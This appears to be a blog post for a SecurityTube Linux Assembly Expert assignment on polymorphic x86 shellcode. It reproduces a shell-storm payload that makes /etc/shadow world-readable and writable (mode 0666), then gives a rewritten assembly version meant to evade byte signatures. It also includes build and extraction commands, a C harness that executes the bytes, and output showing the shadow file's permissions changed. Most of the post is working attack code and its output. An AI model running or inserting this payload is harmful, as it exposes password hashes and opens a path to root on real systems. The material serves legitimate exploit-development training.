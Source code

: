 ```yaml
---
layout: single
title: SLAE Assignment 6 -- Polymorphic Shellcode
date: 2019-5-13
classes: wide
header:
  teaser: /assets/images/SLAE/SLAE.jpg
tags:
  - SLAE
  - Linux
  - x86
  - shellcoding
  - MSF
  - polymorphic
--- 
```

![](/assets/images/SLAE/SLAE.jpg)

## Introduction

Assignment 6 is to create polymorphic versions of three separate shellcodes from [shell-storm](http://shell-storm.org/shellcode/). According to the [Polymorphic code](https://en.wikipedia.org/wiki/Polymorphic_code) Wikipedia entry, polymorphic code is "code that uses a polymorphic engine to mutate while keeping the original algorithm intact. That is, the code changes itself each time it runs, but the function of the code (its semantics) will not change at all. For example, 1+3 and 6-2 both achieve the same result while using different values and operations." However, the polymorphic engine in this case will be us manually changing the shellcode. 

Our goal is to not increase the size of the shellcode by more than 50%.

The format of these posts will be me posting the assembly of the original shellcode, along with its author and a link, and then posting my polymorphic version below with major changes commented. Let's begin!

## Shellcode 1

`chmod(/etc/shadow, 0666) & exit()` by ka0x, located [here](http://shell-storm.org/shellcode/files/shellcode-556.php)

Size: 33 Bytes

```c
#include <stdio.h>
 
/*
    linux/x86 ; chmod(/etc/shadow, 0666) & exit() 33 bytes
    written by ka0x - <ka0x01[alt+64]gmail.com>
    lun sep 21 17:13:25 CEST 2009
 
    greets: an0de, Piker, xarnuz, NullWave07, Pepelux, JosS, sch3m4, Trancek and others!
 
*/
 
int main()
{
 
    char shellcode[] =
            "\x31\xc0"          // xor eax,eax
            "\x50"              // push eax
            "\x68\x61\x64\x6f\x77"      // push dword 0x776f6461
            "\x68\x2f\x2f\x73\x68"      // push dword 0x68732f2f
            "\x68\x2f\x65\x74\x63"      // push dword 0x6374652f
            "\x89\xe3"          // mov ebx,esp
            "\x66\x68\xb6\x01"      // push word 0x1b6
            "\x59"              // pop ecx
            "\xb0\x0f"          // mov al,0xf
            "\xcd\x80"          // int 0x80
            "\xb0\x01"          // mov al,0x1
            "\xcd\x80";         // int 0x80
 
    printf("[*] ShellCode size (bytes): %d\n\n", sizeof(shellcode)-1 );
    (*(void(*)()) shellcode)();
     
    return 0;
}
```

We're going to be working with the assembly comments he provided in his C code. There isn't much room for us to work with here, so we'll most likely be adding junk operations and increasing the size a bit.

```nasm
global _start


section .text

_start:

	xor ecx, ecx			        ; clearing a different register at the start
	mul ecx				            ; this clears both EAX and EDX
	push edx			            ; finally get back around to pushing our null onto the stack but with a 2nd new register
	push dword 0x776f6461     ; this section is the same, but wanted to explain:
	push dword 0x68732f2f     ; we're just pushing '/etc/shadow' onto the stack here 
	push dword 0x6374652f
	mov edi,esp			          ; save stack pointer in different register
	xchg ebx, edi			        ; put stack pointer back into EBX
	push word 0x1ff			      ; push '777' instead of '666' (this is in octal)
	pop ecx
	sub ecx, 0x49			        ; get ECX back down to '666' by subtracting '111'
	mov al,0xf
	int 0x80
	mov al,0x1
	int 0x80
```

Assemble and link our code:
```terminal_session
root@kali:~# nasm -f elf32 chmod.nasm && ld -m elf_i386 chmod.o -o chmod_test
```

Dump the shellcode:
```terminal_session
root@kali:~# objdump -d ./chmod_test|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc9\xf7\xe1\x52\x68\x61\x64\x6f\x77\x68\x2f\x2f\x73\x68\x68\x2f\x65\x74\x63\x89\xe7\x87\xdf\x66\x68\xff\x01\x59\x83\xe9\x49\xb0\x0f\xcd\x80\xb0\x01\xcd\x80"
```

Place it into our shellcode.c file:
```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc9\xf7\xe1\x52\x68\x61\x64\x6f\x77\x68\x2f\x2f\x73\x68\x68\x2f\x65\x74\x63\x89\xe7\x87\xdf\x66\x68\xff\x01\x59\x83\xe9\x49\xb0\x0f\xcd\x80\xb0\x01\xcd\x80";


main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
```

Finally, compile and run!
```terminal_session
root@kali:~# gcc -fno-stack-protector -z execstack -m32 shellcode.c -o chmod_test
```
```terminal_session
root@kali:/etc# cp ~/chmod_test .
root@kali:/etc# ./chmod_test
Shellcode Length:  40
root@kali:/etc# ls -lah | grep shadow
-rw-rw-rw-   1 root    shadow  1.8K Jan 21 00:36 shadow
```

The shadow file has `666` permissions, our code was a success! 

Size increase: 21%



## Github

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:
<http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/>

Student ID: SLAE-1458

You can find all of the code used in this blog post [here.](https://github.com/h0mbre/SLAE/tree/master/Assignment5)



